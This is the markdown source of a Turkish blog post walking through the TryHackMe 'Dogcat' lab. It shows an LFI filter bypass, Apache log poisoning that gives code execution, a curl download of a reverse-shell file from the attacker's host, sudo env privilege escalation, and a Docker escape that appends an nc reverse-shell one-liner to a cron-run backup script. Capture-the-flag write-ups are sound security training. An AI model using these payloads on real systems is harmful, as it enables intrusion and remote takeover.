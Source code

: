 ```yaml
---
title: "THM Dogcat Write Up"
date: 2020-10-14T21:45:22+03:00
draft: false
toc: true
images:
tags: [Tryhackme,write-up,Lfi,docker,cron,ftp] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere Tryhackme'de yer alan orta seviye zorluktaki [DogCat](https://tryhackme.com/room/dogcat) adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/thm/dogcat/cover.png
  
---
```


*Merhaba, Bu yazımda sizlere Tryhackme'de yer alan orta seviye zorluktaki [DogCat](https://tryhackme.com/room/dogcat) adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar...*

## 1. Keşif Aşaması

Nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

```bash
sudo nmap -sV -sC 10.10.35.38
```

{{< image src="/images/thm/dogcat/nmap.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Sistemde sadece 2 port açıktır. Web sayfasına giriş yapılır. Anasayfada yer alan dog ve cat butonlarına tıklanarak adres çubuğuna dikkatle bakılır.

{{< image src="/images/thm/dogcat/web1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}
<br>
{{< image src="/images/thm/dogcat/web2.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

LFI zafiyeti kontrolü için /etc/passwd dosyası okunmaya çalışılır.

{{< image src="/images/thm/dogcat/lfi1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Dog ve cat dışındaki dosyalar filtreye takılımaktadır. Dog ibaresi eklenerek test tekrarlanır.

{{< image src="/images/thm/dogcat/lfi2.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Dog ve cat filtresi baypass edilidiğinde dosyaya otomatik olarak .php uzantısı eklendiği görülmektedir. Php filter kullanılarak index.php dosyası okunmaya çalışılır.

```url
?view=php://filter/convert.base64-encode/resource=./dog/../index
```

index.php dosyası başarılı bir şekilde okunur. Sonuç base64 ile decode edilir. Index.php içerisindeki php kodları incelenir.

```php
<?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
**containsStr()** metodu ile dog ve cat ifadeleri kontrol edilmektedir. Get isteğinde **ext** parametresi yok ise php uzantısının otomatik olarak eklendiği görülmektedir. İstek yapılırken **&ext** kullanılarak uzantı ekleme kısmı baypass edilir.

*LFI zafiyetinden RCE (Remote Code Execution) oluşturabilmek için tarayıcıdan LFI ile okunabilen bir dosyaya php kodu enjekte edilmelidir. Apache logları kontrol edilir. Özellikle access.log dosyasında web servisine atılan tüm isteklerin header bilgileri kayıt edilmektedir. Log dosyası okunmaya çalışılır.*

```url
?view=./dog/../../../../var/log/apache2/access.log&ext=
```
{{< image src="/images/thm/dogcat/logpage.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Log içeriklerine bakıldığında ***User-Agent*** bilgisininde kayıt edildiği görülmektedir. User-Agent bilgisi kod çalıştırabilecek bir php kodu ile değiştirilip istek atıldığında isteğin başlık bilgisi, log dosyasına kayıt edilir. İşlem Burpsuite aracı kullanılarak yapılır.

{{< image src="/images/thm/dogcat/user.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Daha sonra test için cmd parametresine id değeri verilerek apache access log dosyası okunmaya çalışılır.

```url
?view=./dog/../../../../var/log/apache2/access.log&ext=&cmd=id
```
{{< image src="/images/thm/dogcat/id.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

id komutu başarılı ile çalışmaktadır. Bu aşamadan sonra shell bağlantısı için birçok yol izlenebilir. Biz burada sisteme dosya upload ederek shell bağlantısı alacağız. 

Localhostta python3 http.server modulü kullanılarak web sunucusu ayağa kaldırılır. Daha sonra
 ```
&cmd=curl http://10.9.62.67:8000/reverse.php -o reverse.php 
``` 
komutu adres çubuğuna eklenir.

```url
?view=./dog/../../../../var/log/apache2/access.log&ext=&&cmd=curl http://10.9.62.67:8000/reverse.php -o reverse.php
```
{{< image src="/images/thm/dogcat/server.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

Ayarlanan port dinlemeye başlanır. Daha sonra tarayıcıdan yüklenen dosyaya istek atılır ve shell bağlantısı sağlanır.

```http://10.10.35.38/reverse.php```

{{< image src="/images/thm/dogcat/shell.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Web dizine bakıldığında birinci flag dosyası okunur.

{{< image src="/images/thm/dogcat/flag1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}


## 3. Yetki Yükseltme

`sudo -l` komutu ile *www-data* kullanısının yetkileri kontrol edilir. **env** komutunun parola gerektirmeden root yetkisi ile çalıştırılabileceği tespit edilir.

{{< image src="/images/thm/dogcat/priv.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Aşağıdaki komut ile ***env*** uygulaması ile yetki yükseltilir. 

```bash
sudo /usr/bin/env /bin/bash 
```
{{< image src="/images/thm/dogcat/root1.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

**find** komutu ile sistemdeki diğer flag dosyaları aranır. flag2 ve flag3 dosyaları tespit edilir. Root yetkisinde olduğumuzdan flaglar kolayca okunur.

{{< image src="/images/thm/dogcat/flags.png" alt="Hello Friend" position="center" style="border-radius: 10px;" >}}

Makinadaki toplam 4 adet flag dosyasından 3 tanesi tespit edilmiştir. 

{{< image src="/images/thm/dogcat/makina.png" alt="Hello Friend" position="center" >}}

Makina adına dikkatlice bakıldığında docker container içerisinde olduğumuz görülmektedir. Diğer flag dosyası için container dışına çıkmamız gerekmektedir.

**/opt** dizini kontrol edildiğinde backups klasörü dikkat çekmektedir. Dizin içeriğine bakıldığında backup.sh adında shell script bulunmaktadır.

{{< image src="/images/thm/dogcat/backup.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}

*/root/container* dizini ile container içerisinde yer alan */opt/backup* dizininin volume oluşturularak bağlandığı görülmektedir. Dizindeki backup.sh dosyasına shell kodu eklenerek containerdan dışarı çıkılır.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.62.67 5555 >/tmp/f" >> backup.sh
```
nc ile 5555 port dinlenir. backup.sh dosyası containerın çalıştığı host tarafından düzenli olarak çalıştırılmaktadır. (Öyle tahmin ederek bağlantı gelmesi beklenir :shushing_face:)

{{< image src="/images/thm/dogcat/root2.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}

Kısa bir süre sonra ana makinadan shell bağlantısı alınır. Root dizini kontrol edilerek 4. flag dosyası okunur.


{{< image src="/images/thm/dogcat/rootdir.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}
<br>
{{< image src="/images/thm/dogcat/rootflagg.png" alt="Hello Friend" position="center" style="border-radius: 5px;" >}}












